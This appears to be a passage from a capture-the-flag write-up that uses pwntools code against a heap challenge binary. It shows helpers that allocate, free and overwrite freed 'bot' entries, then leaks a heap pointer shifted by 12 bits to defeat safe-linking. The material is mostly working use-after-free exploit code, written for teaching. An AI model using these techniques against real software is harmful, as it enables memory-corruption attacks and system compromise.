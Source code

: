 ```python
    output = p.recvuntil(f'ID:{bot_id}\n'.encode())
    print(output)
    leaked_L_shifted = p.recvline().strip()[:8].ljust(8, b'\x00')
    leaked_L_shifted = u64(leaked_L_shifted)
    return leaked_L_shifted


def change_deallocated_bot(bot_id, address, payload):
    p.sendline(b'-1')  # change deallocated bot
    p.sendline(str(bot_id).encode())
    p.send(p64(address))
    p.sendline(payload)
    p.sendline(b'aaa')  # to avoid maintenance variable set to 1
    output = p.recvuntil(b'Invalid option\n')
    print(output.decode())
```


Here:
- `allocate_bot(bot_id, length, identifier)` requires:
	- the bot `id` we want to add
	- the `length` of the string identifier we want to add
	- the `identifier` that is the string we want to put in the botname, and so the string to allocate
- `deallocate_bot(bot_id)` requires
	- the `id` of the botname we want to deallocate
- `call_atttack_function_to_leak_data(bot_id)` requires
	- a bot `id` that is used to extract the line printed after, this will be used to extract some useful information we need to perform the attack, and so the **L shifted by 12 bits.**
- `change_deallocated_bot(bot_id, address, payload)` requires
	- the bot `id` we want to change
	- the `address`  that is what we need to write on the botname of this bot
	- a `payload` that is used to align the data sending and to stop the sending of it



At this point we can start our exploit.

==**The first thing to do is to extract L shifted by 12.**==

### L shifted by 12 extraction

To do it we can use:
```python
# allocation of 3 bots
allocate_bot(0, 16, b'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa')
allocate_bot(1, 16, b'bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa')
allocate_bot(2, 32, b'cccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccc')
allocate_bot(3, 32, b'dddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddd')

# deallcoate bot id 0 
deallocate_bot(0)

# allocate bot 0 passing only \xff to get his metadata (L shifted)
allocate_bot(0, 16, b'\xff')

# leak L shifted by 12
leaked_L_shifted = call_atttack_function_to_leak_data(0)
print(p64(leaked_L_shifted))
```
